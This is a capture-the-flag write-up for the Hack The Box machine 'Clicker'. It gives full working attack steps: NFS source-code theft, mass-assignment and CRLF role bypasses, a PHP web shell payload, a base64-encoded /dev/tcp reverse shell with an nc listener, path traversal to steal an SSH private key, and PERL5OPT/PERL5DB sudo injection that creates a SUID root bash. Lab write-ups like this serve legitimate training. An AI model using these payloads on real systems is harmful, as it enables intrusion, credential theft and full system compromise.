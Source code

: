 # Clicker

## Enumeration

![Homepage](Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

### Nmap

![Nmap](Screenshots/2023-12-19-11-27-30.png)

```rpcbind reveals that nfs is available and supporting older versions.```

### RPC

![rpcinfo](Screenshots/2023-12-19-11-13-47.png)

```Knowing this, mount the share```

### NFS

![showmounts](Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](Screenshots/2023-12-19-11-35-38.png)

```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

## Foothold

![role](Screenshots/2023-12-19-11-42-05.png)

```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```

![authentication.php](Screenshots/2023-12-19-11-44-47.png)

```To access `admin.php` we'll need to set our role to admin```

![admin.php](Screenshots/2023-12-19-11-45-44.png)


```Theres two ways to achieve that:```
- SQL mass assignment
- CRLF vulnerability


[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment

    role%3d'Admin',clicks=2000

```By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.```

![mass assign](Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

```By adding %0a to `role` we can bypass the blacklist```

![CRLF](Screenshots/2023-12-19-11-49-12.png)

```Now if we relog we should be able to access the admin panel```

![Administration](Screenshots/2023-12-19-11-59-17.png)

![Administration content](Screenshots/2023-12-19-11-59-50.png)

### Exports

![exports](Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](Screenshots/2023-12-19-12-07-50.png)

```As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.```

![php payload](Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

```This is the shortest php payload, it'll work for our needs, however when referring to the custom exploit we'll use a different one as some of the special symbols collide and are not playing nice```

![command execution](Screenshots/2023-12-19-12-23-28.png)

```Now that we've tested that it's possible, time to get a reverseshell```

### Reverse Shell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

```send the payload:```

```bash
echo <your base64 string> | base64 -d | bash
```

![revshell](Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](Screenshots/2023-12-19-13-02-55.png)

```By running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.```

![Strace for execute_query 1](Screenshots/2023-12-19-13-04-31.png)

```we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.```

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](Screenshots/2023-12-19-13-10-24.png)

```It executes the same file as option 1 would. Let's try directory traversal.```

![/etc/passwd/](Screenshots/2023-12-19-13-11-43.png)

```Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.```

![id_rsa](Screenshots/2023-12-19-13-13-51.png)

```We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. ```

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](Screenshots/2023-12-19-13-19-41.png)

## Escalation to root

```Check for sudo -l to list all sudo priviledges```

![sudo -l](Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](Screenshots/2023-12-19-13-26-41.png)

```We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable. So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:```

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

```Essentially we're only interested in the payload:```

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

```Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.```

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

```It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.```

![euid=root](Screenshots/2023-12-19-13-41-23.png)

#### Flag

![rootflag](Screenshots/2023-12-19-13-42-16.png)

## Personal Input

```The box challenged a variety of pre-existing skills as well as introduced new personal challenges, such as polishing white-box testing skills, I don't often dive into source code, so this was a great experience to practice and do a deep dive into code flow; Experimenting and learning more about SQL mass injection. CRLF was my 1st go to and it worked perfectly, however I researched other possibilities just to calm my curiosity. The fact that SESSION information only updated on relog drove me mad for quite a while since I completely overlooked that fact. Surprisingly Enough priviledge escalation was tough as I had to look into strace more and launch GHydra to help myself better understand what's happening. Finding perl_startup escalation vulnerability took me ages. All in all This was the most challenging box I've done in a while and kept me in a well balanced spot between frustrated and satisfied. A lot of takeaways from this box, can't recommend it enough for others. ```

![Pwnd](Screenshots/2023-12-19-13-45-08.png)
